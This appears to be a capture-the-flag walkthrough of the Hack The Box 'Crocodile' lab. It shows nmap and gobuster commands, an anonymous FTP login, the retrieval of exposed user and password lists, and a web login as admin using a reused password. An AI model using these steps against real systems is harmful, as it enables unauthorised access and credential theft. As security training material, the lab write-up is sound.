






````markdown
## Hack The Box — Crocodile

## Initial Enumeration

An Nmap scan was performed against the target to identify open ports and running services.

**Command:**

```bash
nmap -sC -sV -O -T4 10.129.30.157
````

**Parameters:**

* `-sC` — Default scripts
* `-sV` — Service and version detection
* `-O` — Operating system detection
* `-T4` — Faster timing template
* `10.129.30.157` — Target IP



---

## Nmap Results

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed
| -rw-r--r--    1 ftp ftp 33 allowed.userlist
|_-rw-r--r--    1 ftp ftp 62 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Two notable services were discovered:

* **FTP (21/tcp)** — Anonymous login enabled
* **HTTP (80/tcp)** — Apache web server

---

## FTP Enumeration

Anonymous access to the FTP service was tested.

**Command:**

```bash
ftp 10.129.30.157
```

Login as `anonymous` was successful.



---

## FTP File Listing

The contents of the FTP directory were listed.

**Command:**

```ftp
ls
```

The following files were found:

* `allowed.userlist`
* `allowed.userlist.passwd`



---

## Downloading Files from FTP

The discovered files were downloaded to the local machine.

**Commands:**

```ftp
get allowed.userlist
get allowed.userlist.passwd
```



---

## Credential Discovery

The downloaded files were examined locally.

`allowed.userlist`:

```text
aron
pwnmeow
egotisticalsw
admin
```

`allowed.userlist.passwd`:

```text
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

The presence of the `admin` user suggested possible reuse of credentials on the web service.



---

## Directory Brute Force

A directory brute force attack was performed against the web server to identify hidden resources.

**Command:**

```bash
gobuster dir -u http://10.129.30.157 \
-w /usr/share/wordlists/dirb/common.txt -x php
```

A PHP authentication endpoint was identified:

* `login.php`



---

## Web Authentication and Flag

The login page was accessed via the browser:

```
http://10.129.30.157/login.php
```

The credentials obtained from the FTP service were used:

* **Username:** `admin`
* **Password:** `rKXM59ESxesUFHAd`

Authentication was successful, and the flag was displayed on the page.


---

## Flag

The flag was successfully retrieved.

---

## Conclusion

The Crocodile machine demonstrates how simple misconfigurations can lead to a full compromise.

### Identified Issues:

* Anonymous FTP access enabled
* Plaintext credential files exposed via FTP
* Credential reuse across services

### Key Takeaway:

Improperly secured auxiliary services such as FTP can directly compromise web applications when sensitive data is exposed.
